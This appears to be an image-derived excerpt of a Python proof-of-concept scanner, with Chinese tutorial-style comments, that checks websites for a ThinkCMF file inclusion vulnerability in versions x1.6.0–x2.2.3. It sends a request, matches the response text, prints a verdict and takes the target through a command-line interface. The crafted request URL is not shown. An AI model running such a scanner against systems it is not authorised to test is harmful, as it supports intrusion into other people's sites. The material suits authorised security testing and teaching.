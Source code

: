 ```python
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1", "Connection": "close"}
    ##处理异常
    try:
        ##发送get请求，第一个位置是url1的值，headers=headers 是请求头，verify=False禁用 SSL 验证，timeout=5 响应超时时间5秒，allow_redirects=False禁用重定向的请求
        r = requests.get(url1, headers=headers, verify=False, timeout=5, allow_redirects=False)
        ##这里就是判断
        if "ThinkCMF是一款" in r.text:
            print(f"[+]{url}存在Thinkcmf文件包含漏洞")
        else:
            print(f"[-]{url}不存在Thinkcmf文件包含漏洞")
    except Exception as e:
        ##异常回复
        print(f"[-]{url}存在异常，请检查！")
        ##异常退出
        sys.exit(1)


def main():
    ##字符画
    banner = """

.::: .::::::                    .::         .::   .::       .::.::::::::
     .::    .::      .:         .::      .::   .::.: .::   .:::.::      
     .::    .::        .:: .::  .::  .::.::       .:: .:: . .::.::      
     .::    .: .:   .:: .::  .::.:: .:: .::       .::  .::  .::.::::::  
     .::    .::  .::.:: .::  .::.:.::   .::       .::   .:  .::.::      
     .::    .:   .::.:: .::  .::.:: .::  .::   .::.::       .::.::      
     .::    .::  .::.::.:::  .::.::  .::   .::::  .::       .::.::  
    """
    print(banner)
    ##漏洞版本，当然也可以写你想写的
    print("Vulnerability version: x1.6.0-x2.2.3")
    
    ##以下我今儿不解释了应该都针对是啥了，不懂的看前几篇文章！
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", dest="url", required=True, type=str, default=None, help="Vulnerability IP")
    parser.add_argument("-p", dest="port", required=False, type=int, default=80,
                        help="The default vulnerability port is 80")
    args = parser.parse_args()
    ##传参数
    poc(args.url, args.port)


if __name__ == '__main__':
    main()

```
